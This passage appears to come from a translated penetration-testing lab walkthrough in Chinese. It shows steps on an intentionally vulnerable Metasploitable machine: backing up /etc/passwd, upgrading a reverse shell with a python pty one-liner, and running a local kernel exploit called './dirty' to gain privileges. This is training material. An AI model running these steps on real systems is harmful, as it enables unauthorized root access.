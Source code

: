 15.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

将原来的/etc/passwd 复制到/tmp

```
cp /etc/passwd /tmp
```

![](img/daeab77df87302797e69aa5609741653.png)

16.在 192.168.62.162 上执行(受害机器，Metasploitable 第一个反向外壳)。

如果尚未升级，请将当前 shell 升级到交互式 shell。

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

执行攻击(总共需要大约 1-3 分钟)

```
cd /tmp
./dirty
```

![](img/69287f4bd3cf0e0d44f3c4fbe1aa53a4.png)

出现密码问题时按 ENTER 键(空白密码)

等待大约 2/3 分钟，等待攻击完成。

![](img/4da750cba576406de21f89271355c758.png)
